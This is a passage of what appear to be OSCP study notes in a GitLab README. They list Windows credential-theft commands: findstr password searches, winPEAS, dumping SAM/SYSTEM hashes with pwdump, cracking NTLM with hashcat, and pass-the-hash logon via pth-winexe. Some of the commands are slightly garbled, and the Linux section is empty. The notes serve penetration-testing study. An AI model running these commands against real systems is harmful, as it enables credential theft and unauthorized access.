 ```
	• Recursively search for files in the current directory with password that also in with multiple extensions
		○ Findstr /si password &.xml *.ini *.txt
	
	• Looks for known files that may contain password information
		○ .\winPEASany.exe quiet cmd searchfast filesinfo
	• Windows stores password hashes in the Security Account Manager (SAM)
	• Hashes are encrypted with a key which can be found in a file named SYSTEM
	• Read access to the SAM & SYSTEM files can also allow you to extract the hashes
	• Pwdump needs to be the latest version to extract hashes from windows 10 
		○ Git clone https://github.com/Neohapsis/creddump7.git
		○ Python2 pwdump.py /tools/SYSTEM /tool/SAM
	• Crack hash for windows 10 passwords NTLM
		○ Hashcat -m 1000 --force hash /usr/share/wordlists/rockyou.txt
	• Windows Accepts hashes instead of passwords to authenticate to a number of services, this is known as pass the hash. Tools that can be used are:
		○ Winexe
		○ Pth-winexe 
	• Logon with admin user without cracking password, include entire hash
		○ Pth-winexe -U 'admin%alksjdflkjasdlfjlsadfj:aksjdlkfjalksdjflkadjs; //ip cmd.exe
		○ Pth-winexe --system -U 'admin%alksjdflkjasdlfjlsadfj:aksjdlkfjalksdjflkadjs; //ip cmd.exe
		
![image](https://user-images.githubusercontent.com/32726832/168018025-b107690c-9422-4832-accd-5865a23c89d4.png)
```
### Linux PrivEsc
```
```
### Clean Up
```
```

## Integrate with your tools

- [ ] [Set up project integrations](https://Gitlab.com/GalvanHacking/oscp/-/settings/integrations)

## Collaborate with your team

- [ ] [Invite team members and collaborators](https://docs.Gitlab.com/ee/user/project/members/)
- [ ] [Create a new merge request](https://docs.Gitlab.com/ee/user/project/merge_requests/creating_merge_requests.html)
- [ ] [Automatically close issues from merge requests](https://docs.Gitlab.com/ee/user/project/issues/managing_issues.html#closing-issues-automatically)
- [ ] [Enable merge request approvals](https://docs.Gitlab.com/ee/user/project/merge_requests/approvals/)
- [ ] [Automatically merge when pipeline succeeds](https://docs.Gitlab.com/ee/user/project/merge_requests/merge_when_pipeline_succeeds.html)

## Test and Deploy

